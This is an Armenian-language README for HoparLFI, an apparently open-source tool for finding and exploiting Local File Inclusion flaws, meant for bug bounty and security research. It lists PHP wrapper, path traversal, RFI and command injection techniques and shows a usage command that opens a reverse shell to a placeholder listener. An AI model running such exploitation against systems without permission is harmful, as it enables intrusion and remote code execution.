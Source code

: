 # 🕵️‍♂️ HoparLFI

**HoparLFI** — Տեղային ֆայլերի ներառման (Local File Inclusion, LFI) խոցելիությունների հայտնաբերման և շահագործման գործիք է՝ նախատեսված Bug Bounty որոնողների և տեղեկատվական անվտանգության հետազոտողների համար։

---

## 🔧 Տեղադրում

Կլոնավորեք ռեպոզիտորիան՝

```bash
git clone https://github.com/havaiuser123/HoparLFI.git
cd hoparlfi
```

Տեղադրեք պահանջվող փաթեթները․

```bash
pip install -r requirements.txt
```

---

## ▶️ Օգտագործում

```bash
python hoparlfi.py [տարբերակներ]
```

Օրինակ՝

```bash
python hoparlfi.py -U http://example.com/page.php?file=PWN -f -x --lhost 127.0.0.1 --lport 4444
```

Հասանելի հիմնական տարբերակների շարքը կարող եք տեսնել՝ օգտագործելով `-h` կամ `--help`։

---

## 🚀 Հնարավորություններ

* ✅ Բազմաթիվ հարձակման մեթոդներ՝

  * `filter`
  * `input`
  * `data`
  * `expect`
  * `path traversal`
  * `RFI`
  * `command injection`
* ✅ Աջակցում է անհատական wordlist-ների
* ✅ Reverse shell շահագործում (RCE exploit)
* ✅ CSRF թոքենների կառավարում
* ✅ Proxy աջակցություն
* ✅ Մանրամասն գրանցում (logging)
* ✅ Վերնագրերի և HTTP մեթոդների հարմարեցում

---

## ⚠️ Նշումներ

* 🚩 Օգտագործեք միայն թիրախ համակարգում թեստավորման թույլտվությամբ։
* 📃 Այս գործիքը նախատեսված է ուսումնական և հետազոտական նպատակների համար։
* ✅ Արդյունքները ավտոմատ պահպանվում են `reports/output.json` ֆայլում։
